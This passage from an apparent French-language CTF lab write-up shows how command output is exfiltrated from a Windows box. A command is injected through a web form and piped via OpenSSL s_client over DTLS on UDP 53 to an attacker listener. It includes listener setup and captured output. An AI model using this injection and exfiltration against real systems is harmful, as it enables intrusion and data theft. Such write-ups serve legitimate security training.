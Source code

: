 Pour pouvoir exfiltrer l'output de nos commandes avec *s\_client* et il faut pouvoir mettre son alter-ego *s\_server* en écoute. Au préalable on doit générer un certificat et une clé privée (l'option *nodes* permettant comme personne ne s'en doute de passer outre la définition d'un mot de passe pour la clé privée) :  

```plain
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -nodes
```

On écoute alors sur le port UDP 53 (il faut forcer l'IPv4 car l'IPv6 est par défaut) :  

```plain
sudo openssl s_server -4 -cert cert.pem -key key.pem -dtls1_2 -accept 53
```

Via notre formulaire web on exécute le client :  

```plain
10.10.14.151  & whoami | "c:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -dtls1_2 -connect 10.10.14.151:53
```

Verbose output is verbose (on peut rajouter l'option -quiet sur notre serveur pour s'en débarrasser) :  

```plain
Using default temp DH parameters
ACCEPT
-----BEGIN SSL SESSION PARAMETERS-----
MFsCAQECAwD+/QQCwDAEAAQwHs7lRaG1fGUxUvYsGqOab4RB1rn+far14MAqiPYP
3aexpclhbvnLT/sSF6eX8lgloQYCBFvoMumiBAICHCCkBgQEAQAAAK0DAgEB
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:DHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305:DHE-RSA-CHACHA20-POLY1305:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:DHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-SHA384:ECDHE-RSA-AES256-SHA384:DHE-RSA-AES256-SHA256:ECDHE-ECDSA-AES128-SHA256:ECDHE-RSA-AES128-SHA256:DHE-RSA-AES128-SHA256:ECDHE-ECDSA-AES256-SHA:ECDHE-RSA-AES256-SHA:DHE-RSA-AES256-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES128-SHA:DHE-RSA-AES128-SHA:AES256-GCM-SHA384:AES128-GCM-SHA256:AES256-SHA256:AES128-SHA256:AES256-SHA:AES128-SHA
Signature Algorithms: RSA+SHA512:DSA+SHA512:ECDSA+SHA512:RSA+SHA384:DSA+SHA384:ECDSA+SHA384:RSA+SHA256:DSA+SHA256:ECDSA+SHA256:RSA+SHA224:DSA+SHA224:ECDSA+SHA224:RSA+SHA1:DSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA512:DSA+SHA512:ECDSA+SHA512:RSA+SHA384:DSA+SHA384:ECDSA+SHA384:RSA+SHA256:DSA+SHA256:ECDSA+SHA256:RSA+SHA224:DSA+SHA224:ECDSA+SHA224:RSA+SHA1:DSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed:ansiX962_compressed_prime:ansiX962_compressed_char2
Supported Elliptic Groups: X25519:P-256:P-521:P-384
Shared Elliptic groups: X25519:P-256:P-521:P-384
---
No server certificate CA names sent
CIPHER is ECDHE-RSA-AES256-GCM-SHA384
Secure Renegotiation IS supported
TIMEOUT occurred
ethereal\alan
```

Avec cette méthode on peut ainsi récupérer la totalité du fichier *note-draft.txt* :  
